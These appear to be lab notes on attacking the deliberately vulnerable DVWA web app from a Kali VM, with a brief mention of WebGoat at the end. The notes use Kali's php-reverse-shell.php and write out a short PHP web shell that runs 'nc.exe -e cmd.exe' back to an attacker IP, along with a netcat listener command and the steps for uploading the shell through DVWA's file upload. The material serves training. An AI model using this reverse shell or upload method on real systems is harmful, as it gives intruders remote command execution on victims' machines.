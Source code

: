 **On Kali VM**
1. List out contents of `/usr/share/webshells/php`

![](https://i.imgur.com/SfjaUph.png)

2. View `php-reverse-shell.php` - Use this script by changing `$ip` and `$port` variables to IP and port with process like Netcat listening

![400](https://i.imgur.com/h6Z4agy.png)

3. If script runs on target, script will connect back to the attacker's computer on specified port and run the commands in `$shell`
	- Giving the hacker `/bin/sh` interactive shell

> **Take Note:**
> - `php-reverse-shell.php` only works on Linux targets
> - DVWA running on Windows needs a reverse shell suitable for Windows targets
> - Windows User Account Control (UAC) security feature may prevent such scripts from running on the target

### Upload a Script to run Netcat software
**On Kali VM**
1. Download Netcat for Windows
2. Run the executable file `nc.exe`
3. Create the following script `nc-reverse-shell.php`
```php
<?php
	header("Content-type: text/plain");
	$ip = "Kali-IP";  // Change to Kali IP
	$port = "443";    // Change to any port number not in use
	$cmd = "nc.exe -e cmd.exe ".$ip." ".$port;
	echo "\nExecuting : ".$cmd."\n";
	$output = system($cmd)
?>	
```

4. On a terminal, run Netcat (Kali version) to start listening to a port:
```
sudo nc -l -p <port-number>
```

5. Browse to DVWA and set security level to low
6. Click on **File Upload**
7. Upload both `nc.exe` and `nc-reverse-shell.php` files
8. Browse to path of uploaded `nc-reverse-shell.php` file
```
http://Win10-IP/dvwa-master/hackable/uploads/nc-reverse-shell.php
```

9. Switch to terminal where Netcat is running
10. If reverse shell is successful, can run commands on target using the Command Prompt from Win10 VM

## WebGoat
> **WebGoat** is another vulnerable web application that can be used for testing

